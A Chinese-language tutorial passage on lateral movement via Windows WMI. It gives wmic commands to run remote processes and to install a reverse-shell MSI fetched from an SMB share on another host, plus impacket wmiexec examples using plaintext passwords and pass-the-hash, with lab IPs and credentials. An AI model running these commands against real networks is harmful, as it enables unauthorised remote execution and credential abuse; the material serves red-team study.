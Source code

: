 在横向移动时，可以利用 WMI 提供的管理功能，通过以获取的用户凭据，与本地或远程主机进行交互，并控制其执行各种行为。目前两种常见的利用方法：  
**1、通过调用 WMI 的类方法进行远程调用，如 Win32\_Process 类中的 Create 方法可以在远程主机上创建进程，Win32\_Product 类的 Install 方法可以在远程主机上安装恶意的 MSI  
****2、远程部署 WMI 事件订阅，在特定事件发生时触发**

利用 WMI 进行横向移动需要具备以下条件：  
**1、远程主机的 WMI 服务为开启状态（默认开启）  
****2、远程主机防火墙放行 135 端口，这是 WMI 管理的默认端口**

### [常规利用方法](#toc__4)

在 windows 上可以通过 wmic.exe 和 powershell cmelet 来使用 wmi 数据和执行 WMI 方法。  
wmic.exe 是一个与 WMI 进行交互的命令行工具，拥有大量的 WMI 对象的默认别名，可以执行许多复杂的查询。powershell 也提供了许多可以与 WMI 进行交互的 cmelet，如 Invoke-WmiMethod、Set-WmiInstance 等

**执行远程查询**

通过 WMI 查询远程主机上运行的进程信息

```bash
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ process list brief # /node 执行远程主机的地址
```

**创建远程进程**  
通过调用 Win32\_Process.Create 方法在远程主机上创建进程，启动 CMD 来执行命令

由于 WMIC 在执行命令时没有回显，因此可以将执行结果写入文件，然后通过别的方式读取文件

```bash
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ process call create "cmd.exe /c ipconfig > C:\result.txt"
```

**远程安装 MSI 文件**  
通过调用 Win32\_Product.Install 方法，可以控制远程主机安装恶意 MSI 文件，从而获得权限

```bash
wmic /node:192.168.1.131 /user:Administrator /password:123qwe@ product call install PackageLocation="\\192.168.1.1\mysmb\reverse_tcp.msi"
```

### [常见利用工具](#toc__5)

#### [套件 impacket-**WmiExec**](#toc_impacket-wmiexec)

Impacket 项目的 Wmiexec.py 能够以全交互或半交互的方式，通过 WMI 在远程主机上执行命令。该工机需要远程主机开启 135 和 445 端口，其中 445 端口用于传输命令执行的回显。

```bash
python wmiexec.py uf9n1x/Administrator:123qwe@@192.168.1.131 

wmiexec.exe ./administrator:123qwe@@192.168.1.131 "whoami" 
wmiexec.exe god/administrator:Admin12345@192.168.1.131 "whoami" 
wmiexec.exe -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.1.131 "whoami" 
wmiexec.exe -hashes :ccef208c6485269c20db2cad21734fe7 uf9n1x/administrator@192.168.1.131 "whoami"
```

#### [自带 cscript 明文传递 有回显](#toc_cscript)
